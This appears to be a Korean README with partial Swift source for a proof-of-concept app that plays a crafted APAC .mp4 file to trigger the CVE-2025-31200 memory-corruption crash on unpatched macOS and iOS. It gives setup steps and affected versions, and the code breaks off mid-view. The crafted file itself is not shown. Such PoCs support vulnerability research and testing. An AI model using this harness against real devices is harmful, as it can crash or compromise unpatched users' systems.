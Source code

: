 # APACExploitPlayer 사용법

---

## 1. 프로젝트 설정

- Xcode에서 `App` 타입 새 프로젝트 생성 (SwiftUI)
- 파일 추가 → `APACExploitPlayer.swift` 복사
- `.mp4` 파일을 프로젝트에 추가하고 `"output_apac_patch.mp4"`로 이름 설정
    - `Target Membership` 체크 필수
    - `Copy Bundle Resources`에 포함

---

## 2. 실행

- 시뮬레이터 또는 실기기(macOS, iPhone)에서 실행
- 버튼 클릭 시 오디오 재생 시작
- 시스템이 패치되지 않은 경우 **AVPlayer 재생 중 충돌 발생 가능**

---

## 3. 주의사항

- macOS < 15.4.1 또는 iOS < 18.4.1 필요
- `output_apac_patch.mp4`는 앞에서 설명한 방식으로 생성되어야 함
- 디버그 로그 또는 크래시 로그에서 `APACChannelRemapper::Process`나 `memmove` 위치 충돌 확인 가능

---

```swift

// File: APACExploitPlayer.swift
// Platform: macOS or iOS (SwiftUI/macCatalyst supported)
// Description: Loads a patched APAC .mp4 file to trigger the CVE-2025-31200 crash

import SwiftUI
import AVFoundation

@main
struct APACExploitApp: App {
    var body: some Scene {
        WindowGroup {
            ContentView()
        }
    }
}

struct ContentView: View {
    var player: AVPlayer {
        let url = Bundle.main.url(forResource: "output_apac_patch", withExtension: "mp4")!
        let item = AVPlayerItem(url: url)

        // Optional: set audio session for foreground playback
        try? AVAudioSession.sharedInstance().setCategory(.playback, mode: .default, options: [])
        try? AVAudioSession.sharedInstance().setActive(true)

        return AVPlayer(playerItem: item)
    }

    var body: some View {
        VStack(spacing: 20) {
            Text("APAC Exploit PoC")
```